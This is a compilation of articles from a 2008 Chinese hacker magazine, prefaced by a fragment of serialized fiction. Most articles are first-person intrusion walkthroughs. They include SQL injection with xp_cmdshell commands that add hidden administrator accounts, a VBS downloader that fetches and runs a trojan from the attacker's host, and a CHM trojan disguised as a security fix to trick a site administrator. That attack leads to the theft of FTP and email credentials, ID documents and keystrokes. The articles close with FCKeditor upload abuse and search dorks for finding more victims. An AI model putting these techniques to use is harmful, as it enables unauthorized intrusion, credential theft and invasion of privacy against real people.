# 黑客X档案合订本2008年（上）第二部分

---

# 侠隐仙踪

每当睡觉正熟的时候，总会有扔掉手机的冲动，不过这年头连捡垃圾的人都有手机，所以为了虚荣只好浪费美好的梦周公时间。……东方的脸色渐渐苍白了起来，不是因为这个老套的故事，而是因为他发现这个图片里死去的女人，居然和昨晚突然出现在他房间里的小静长得一模一样。……东方连忙冲出了周欣的寝室，向家里飞奔而去，仿佛晚了一步就会发生不可预计的事情。（待续）

## CMD 窗口中也来玩下载

唐伶生

对于入侵者而言，很多时候都希望入侵过程可以在 CMD 窗口下进行操作，因为相对而言，这样隐蔽性较强，不易被察觉。下载自然也不例外。这里介绍一款 CMD 窗口中的下载软件 thysea（下载地址为 http://www.hcibai.net/tools/trojan/hu2.rar）。下载解压后可以在其中找到 download.exe，它的命令参数如下：




跟绝大多数下载软件不同，thysea 可以不受文件扩展名限制下载 HTTP 服务器中的任何一种类型文件。以下下载 Days On My Past（“过去的日子”，也就是“童年”的英文版）为例，具体命令如下（下载时会显示文件大小、进度百分比、速度及需要的剩余时间，如图1）：

```bash
download http://podcache.cctv.com/published1/2007/05/26/pub1180166938288.mp3 e:\Days On My Past.mp3
```

## SA 权限灵活入侵跟我来

白蚁

大家都知道 SA 权限是相当大的，今天我就把自己入侵经验和方法作一个总结，希望能给那些苦寻肉鸡的菜鸟们一点帮助。

首先我们来看一个注入点 `http://www.xxx.com/tongzhi.asp?bt=2006%BE%CD%D2%B5%D0%C5%CF%A2%A3%BA%D6%D0%C9%BD%B4%F3%D`，使用啊D进行检测，发现是 SA 权限。我又使用 NBSI 重新检测了一遍，发现也确实是 SA 权限。因为以前曾经遇到过软件误报的情况，所以就多检测一次来确定是否真的为 SA 权限。

一般当得到 SA 权限的服务器时，我都会直接连接服务器的 3389。在命令提示符下输入 `ping www.xxx.com`，出现结果“219.232.228.xxx”，我们使用远程桌面进行连接，输入刚才得到的 IP（或者网站域名也可以），很快就连接上了（图1）。


图1

现在我们已经成功了一半，接下来只需要通过 SA 注入点添加一个用户就可以了（这也是为什么刚开始要连接 3389 的原因，SA 权限可以直接执行命令）。添加用户可以使用工具，也可以进行手工操作，先来介绍如何使用啊D进行操作。当检测完毕后，我们切换到相关工具页面，然后选择“CMD/上传”，在命令内容栏选择命令“`net user`”查看一下对方系统内的用户（图2）。


图2

使用 `net user guest 888888` 命令把 guest 的密码改为 888888。我们可以给自己加一个用户，比如执行 `net user termite$ 5211314 /add` 命令。为什么我要在用户名后面加一个“$”符号呢？因为它的作用是隐藏这个用户。接着执行 `net localgroup Administrators guest /add` 命令，意思是将 guest 用户添加到管理员组中。同样，我改成了 `net localgroup administrators termite$ /add`，就是把 termite$ 添加进管理员组中，然后使用远程桌面连接登录就行了（图3）。



图3

手工添加管理员用户需要执行 SQL 语句，先打开漏洞页面，在漏洞页面地址后加上：

`exec master..xp_cmdshell 'net user baiyi$ 5211314'--`

然后组合页面继续执行：

`exec master..xp_cmdshell 'net localgroup Administrators termite$ /add'--`

点击连接后，就可以使用账号进行连接了。这两种方法都能够达到目的，我比较偏好手工操作的方法。


图4

## 一个人的战争

曾有一次使用工具添加不进去，但使用手工操作却成功了，大家记住操作一定要灵活哦。

再来看 SA 的另一种情况，就是当发现注入点是 SA 权限，但却不能连接 3389 的情况。既然我们不能一步登天，那使用其它方法拿到服务器权限或者 WebShell 也不错。对于这种情况我推荐大家使用 NBSI……先上传一个 VBS 下载者，然后运行 VBS 下载者让它从我们的空间把木马下载下来，再利用 SA 权限执行命令运行木马……

选中一个网址“http://www.xxxxx.com/wei/disp.asp?name=市场动态&id=243”……找到一款 VBS 下载者，输入木马地址……

`tofor.com/guama/070419.exe`，接着输入木马要保存的路径……最后点“生成 VBS 下载者”……这就是我们的 VBS 下载者，使用啊D的文本文件上传功能将其上传到服务器上……运行 `C:\hackgp.vbs`……再使用 `dir c:\` 命令查看……运行 `C:\070419.exe`……




总的来说，第二种方法还是要利用 SA 权限去执行命令……“有了 SA 权限却拿不到服务器，只能说明技术有问题”……（文中涉及到的工具 hackGp、VBS 下载者、NBSI、啊D注入工具已经收录在光盘中）

## 纯社会工程学渗透某大型信息港

路人甲

已经很久没有写文章了，最近忙里偷闲，就同老婆找了她所熟悉城市的信息港网站地址，开始了这次的入侵旅程。

首先 ping 了一下目标网站，得到其 IP 地址……放到 www.seologs.com 查询，发现绑定了 8 个网站，如图1……我又扫描了一下端口，发现开了 5631、60000 这两个端口……

系统方面的入侵就算了，我手里又没有什么 0DAY 溢出程序，还是从脚本注入上来下手吧……提交 admin/admin 登录……各种注入工具结果都失败了……


看下载站数据库提示可以下载，下载后却是空的……先看论坛 BBS，发现使用 DV8.1 版本……再看 BLOG，使用 OBlog……接着看供求、统计、软件下载等栏目……整站使用风云供求系统、网站统计用乘风统计 1.0、下载站用轩溪 3.4……

在网上找到了关于乘风统计注入的帖子，按内容测试不行；再搜索轩溪下载和风云供求也没有结果……只好自己下载同类搭建平台后找漏洞。轩溪系统防注入做得很好，99% 的文件都处理了，只有投票的 vote.asp 没有……

风云供求 3.4，它本来是存在上传漏洞的，可惜就连这个也被管理员给补上了。脚本方面的东西都分析完了，搞下 ARP 欺骗吧。刚才不是还扫描到一个主机吗？赶紧访问一下，发现全部是 HTML 静态页面，只好撤退。通过 WEBDAV 扫描发现主机使用的是 LINUX 系统。没办法了，整理思路，明天再出发吧。

第二天早上我决定使用社会工程学来征服此网站，首先到论坛上查找了一下管理员的 ID，通过管理员的 ID 得知管理员用户名为 xxx，其真实姓名是 xxx，E-MAIL 地址为 xxx@ycah.net。我在百度上搜索了一下这个电子邮件，得知了其 QQ、常用网络 ID 和出生年月日等信息，然后我试着到网站登录处对管理员密码进行找回，密码提示问题是 1234，试了 N 个答案未果，只好放弃（后来才得知是 4567）。接着又想到了另一个主意。

我的思路是这样的，做一个 CHM 木马（为什么要做 CHM 木马呢？这是因为 exe 文件只有傻瓜才会上当）。为什么不使用网页马或其它格式的木马呢？这是因为我没钱，买不起免杀过全系统的，所以只好选择使用 CHM 的木马了。然后到目标论坛上去发帖，对管理员谎称说他的网站有漏洞需要立刻修补。接着把 CHM 木马命名为“漏洞解决方案.chm”传上去，为了使效果更逼真，我特意在本地截了一个风云供求后台管理的截图也顺便传了上去，如图2。完成后，我对该方案的可行性进行了评估，经过换位思考以及对目标管理员智商的分析，最后得出结论，该方法成功率可为 70%！

名为 yoss 的主机上线了！我兴奋激动了 N 分钟。然后以迅雷不及掩耳之势开启了肉鸡的 3389，并在 5 分钟内翻遍了对方所有的硬盘。这一翻不要紧，拿到了三个服务器的 FTP、六个电子邮件的用户名和密码、管理员自己的身份证、他的女朋友及其家人的照片也在其中。并在浏览器的收藏夹里找到了该信息港的 N 个后台管理地址。读者们可能会问我是如何得到这 6 个电子邮件、3 个 FTP 用户密码的。先来说下这 6 个电子邮件，这个肉鸡的管理员使用的是 FOXMAIL，该软件对邮箱地址和密码都是以明文显示的。而对于 FTP，对方使用的是 LEAPFTP，我直接传了一个星号密码查看器就将其搞定了。可惜的是这几个 FTP 中没有一个是目标服务器的 FTP 用户名和密码，如图3、图4。不过有这些也算是小有收获了。

接着我考虑打开目标网站进行密码找回，顺利地拿到了 BBS 的前台权限，可是还没有后台啊！不要紧，管理员每天都要更新网站，肯定是使用这台肉鸡来更新的，我只要使用 PCSHARE 的键盘记录功能就能拿到网站管理员的用户名和密码了。第三天当我正使用屏幕监视时，看到管理员正在登录论坛后台，因此很轻松地就让 PCSHARE 通过键盘记录得到了后台管理员的用户名和密码，激动人心的时刻到了，我马上使用刚才得到的用户名和密码登录 BBS 后台，进去后发现是 SQL 版的。按照 dvbbs7.1 的方法来获取 WebShell，结果却行不通，真是郁闷，一波未平，一波又起呀。


图2


图5

没想到第二天晚上回来后，打开 PCSHARE 就发现一台计算机……



图3


图4

## 一个人的战争




我无意间看了下 PCSHARE 肉鸡的远程桌面，管理员正在使用 TCPVIEWER 查看那些正在连接的 IP 和端口呢。我还没来得及断开连接就被对方当场发现了，管理员毫不客气地拿出一键还原工具对系统进行了还原。哎！这回亏大了。这个网站我都搞了这么久了，总不至于半途而废吧！

前思后想，或许可以通过 QQ 申诉来拿到管理员的 QQ 密码，然后登录他的 QQ，在他的好友里寻找他的同事，然后欺骗得到目标网站的其他后台用户名和密码。想法倒是不错，但事实是如今大家的警惕性都很高，如图5。冷静下来算算自己现在拥有的与管理员较量的筹码：9 个管理员常用密码和个人身份证扫描件。

会不会这个论坛的密码也是其它分站后台的管理员密码呢？首先测试了动易 2006 的后台，提示需要后台认证码，猜了 N 个也不对。接着又猜下载栏目，发现也有后台认证码。再看新闻管理后台，这个不需要认证码，终于猜对了。



随便找了个上传的页面使用 WinSock 进行抓包，将数据包发送的内容粘贴到 UED32 中进行改包，如图6，在上传路径中增加空格，计算好字节数做出相应修改，按 CTRL+H 切换到 16 进制，在刚才空格的位置输入 0，另存为 txt 文档，使用 NC 上传 txt 到 FTP 并提交，终于得到了一枚网站的 WebShell 了，如图7。紧接着使用 GOLGSUN 的 SERV-U 提权脚本运行木马成功，如图8、图9。


这次渗透入侵可以说没有任何的技术含量，但是其中运用到的社会工程学和一些心理学方面的东西还是值得我们研究的。有些读者可能对此并不在意，但是大家仔细想想其中的一些东西，还是需要我们在与对方较量中注意的，这就需要我们分析对手的心理，揣摩对方的心思。我们面对的毕竟是一个有血有肉的人，少吃亏、少走弯路。

因此，巧妙地捕获猎物，做到事半功倍才是最主要的。现在大家的网络安全意识已经有了很大的提高，很多时候使用常规方法都是行不通的，转用其它的方法，把握别人的心理，从心理上去解读自己的对手，这在很大程度上会让你柳暗花明又一村。正所谓知己知彼，百战不殆。当然大家也要提高自己的反黑意识，要知道天外有天，人外有人。

（文章中涉及到的工具 EasyCHM-v3.73、UED32、NC、peekPassword 及 SU 授权程序已经收录在光盘中）



## 对已知漏洞的一次合理利用

逍遥叟仇 [L.S.T]&[H.S.T]

### 一、出师不利

打开首页大致浏览了一下，大部分都是静态的页面，因为是刚建不久的小网站不怎么出名，所以也就没有必要使用 Google 来搜索注入点了。再说对方怎么着也是搞计算机的，类似注入、上传、默认数据库这类低级别的漏洞他就不用想了。不但如此，这个网站使用的还是独立服务器，因此暂且先不考虑同网段服务器后进行 ARP 的大麻烦。一般来说上述的漏洞都没有的话，那入侵起来可就困难多了，唯一能够得到的就是下面的版权信息 KingCMS 3.0 Beta，如图1。也不知道这个 KingCMS 是否出现过什么漏洞，无奈只好去官方网站下载了一套程序，然后对着网址一阵狂输（因为俺读不懂代码），可惜没有一个能对上号的。真的有点儿怀疑管理员是不是故意给我等小菜设的陷阱。

### 二、利剑出鞘

难不成我要放弃？当然不！大家是否还记得在以前的杂志中曾经介绍过一款工具？就是网站整站下载器——Teleport Pro！打开 Teleport Pro，点击“文件”→“新建”，如图2，选择“完全复制一个站点，保留原来的目录结构（D）”，再点“进一步”，在启动地址栏中输入目标网址，深度选择 3-5 都可以，然后点击“下一步”选择保存目录，如图3。






点击“开始”后就可以将目标网站上的所有页面按原来的目录保存下来了（使用明小子、啊D等工具还找不到网站登录后台的兄弟不妨一试，反正我是屡试不爽呀），如图4。下载完毕后将其打开查看，才发现所有的文件夹都是管理员自己命的名，竟然还有以河南方言“moshi”命名的，管理员可真不简单呀！大致翻了翻没发现有什么可以利用的，无意中在 admin 文件夹发现了一个 FCKeditor 目录，真是天无绝人之路啊。

### 三、直捣黄龙

其实这个系统很早就曾经出现过上传漏洞了，好像在台湾地区应用非常广泛，过了几年才开始在内地流行起来。我们直接在网址后面加上 `admin/FCKeditor/editor/filemanager/browser/default/browser.html?Type=Image&Connector=connectors/asp/connector.asp`，就会打开一个上传文件管理页面，如图5。

思路再扩展一下，在 Google 里以 `inurl:fckeditor` 或 `powered by KingCMS 3.0 Beta` 为关键字进行搜索，那可是一顿大餐呀，就留给菜鸟们自己去啃吧！



图5

